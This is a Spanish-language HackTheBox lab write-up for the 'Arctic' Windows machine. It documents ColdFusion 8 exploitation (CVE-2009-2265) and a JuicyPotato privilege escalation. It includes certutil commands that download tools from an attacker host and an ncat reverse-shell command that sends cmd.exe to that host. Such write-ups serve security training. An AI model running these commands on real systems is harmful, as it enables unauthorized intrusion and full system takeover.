

# Arctic

## Resumen

### Detalles

| Campo                 | Detalle       |
| --------------------- | ------------- |
| **Nombre**            | Arctic        |
| **Sistema Operativo** | Windows       |
| **Plataforma**        | HackTheBox    |
| **Fecha**             | 22/10/2026    |
| **IP Objetivo**       | 10.129.88.163 |

### Executive Summary

Durante la evaluación de la máquina Arctic, alojada en Hack The Box, se identificaron dos vías de explotación que permitieron obtener acceso inicial al sistema y posteriormente alcanzar privilegios de SYSTEM.

El acceso inicial se consiguió mediante una vulnerabilidad de ejecución remota de código asociada a Adobe ColdFusion 8 (CVE-2009-2265). La explotación permitió obtener una sesión bajo el usuario `tolis`.

Posteriormente, se identificó el privilegio `SeImpersonatePrivilege`, que permitió investigar una técnica de suplantación de tokens mediante JuicyPotato. La ejecución satisfactoria de esta técnica permitió obtener una sesión con privilegios de `NT AUTHORITY\SYSTEM`.

El resultado demuestra que una vulnerabilidad en un servicio expuesto, combinada con privilegios locales excesivos y una configuración vulnerable del sistema operativo, puede permitir el compromiso completo de la máquina.

### Técnicas

* Adobe ColdFusion 8 Exploitation (CVE-2009-2265)
* Abusing SeImpersonatePrivilege \[Privilege Escalation]

## Information Gathering

### Port Scanning

```bash
> nmap -sS -n -Pn -p- 10.129.88.163 -oG allPorts
> nmap -sCV -p135,8500,49154 -Pn 10.129.88.163 -oG allServices
```

#### 10.129.88.163

| Puerto    | Servicio | Versión               | Notas                         |
| --------- | -------- | --------------------- | ----------------------------- |
| 135/tcp   | msrpc    | Microsoft Windows RPC |                               |
| 8500/tcp  | http     | JRun Web Server       | Adobe ColdFusion 8 (FootHold) |
| 49154/tcp | msrpc    | Microsoft Windows RPC |                               |

### Enumeration

#### Web

* Corre un servidor Web "JRun Web Server" en el puerto 8500. Se listan los directorios.

<figure><figcaption></figcaption></figure>

* En el directorio **/CFIDE/administrator/** se encuentra un login de administrador de Adobe ColdFusion 8

<figure><figcaption></figcaption></figure>

## Explotación

### Foothold

* **Vulnerabilidad:** CVE-2009-2265 (Afecta a Adobe ColdFusion 8)
* **Exploit:** https://www.exploit-db.com/exploits/50057
* **Procedimiento:**

1. Se configuran los parametros L\_HOST, L\_PORT, R\_HOST y R\_PORT
2. Se ejecuta el exploit

```bash
> python3 ColdFusion8_CVE-2009-2265
```

<figure><figcaption></figcaption></figure>

&#x20;  Se obtiene la reverse shell bajo el usuario `tolis`

<figure><figcaption></figcaption></figure>

* **Evidencia:** user.txt&#x20;

<figure><figcaption></figcaption></figure>

### PrivEsc

* **Vulnerabilidad:** Abuso de `SeImpersonatePrivilege` mediante JuicyPotato
* **Procedimiento:**

1. Se comprueban los privilegios del usuarios `tolis`. Al disponer del privilegio SeImpersonatePrivilege, se utilizará JuicyPotato
2. Se descarga JuicyPotato.exe, ncat.exe, [CLSID.list](https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_Server_2008_R2_Enterprise/CLSID.list), [CLSID.csv](https://github.com/ohpe/juicy-potato/blob/master/CLSID/Windows_Server_2008_R2_Enterprise/CLSID.csv) y [test\_clsid.bat](https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat)
3. Se ejecuta test\_clsid.bat para obtener CLSID con privilegios SYSTEM, se espera a que termine y se revisa result.log
4. Se pone el puerto 9082 en escucha en la maquina de atacante
5. Se ejecuta JuicyPotato enviando un cmd.exe vía netcat a la máquina atacante

```bash
> whoami /priv
```

<figure><figcaption></figcaption></figure>

```bash
> certutil -urlcache -split -f http://10.10.15.78:9090/JuicyPotato.exe JuicyPotato.exe
> certutil -urlcache -split -f http://10.10.15.78:9090/ncat.exe ncat.exe
> certutil -urlcache -split -f http://10.10.15.78:9090/CLSID.csv CLSID.csv
> certutil -urlcache -split -f http://10.10.15.78:9090/CLSID.list CLSID.list
> certutil -urlcache -split -f http://10.10.15.78:9090/test_clsid.bat test_clsid.bat
```

```bash
> test_clsid.bat
> type result.log
```

<figure><figcaption></figcaption></figure>

```bash
# Máquina victima
> netcat -lvnp 9082
```

```bash
> C:/ColdFusion8/runtime/bin/JuicyPotato.exe -l 9092 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -p cmd.exe -a "/c C:/ColdFusion8/runtime/bin/ncat.exe -e cmd.exe 10.10.15.78 9082" -t *
```

&#x20;Se obtiene reverse shell como administrador con exito

<figure><figcaption></figcaption></figure>


*   **Evidencia:** root.txt <br>

    <figure><figcaption></figcaption></figure>

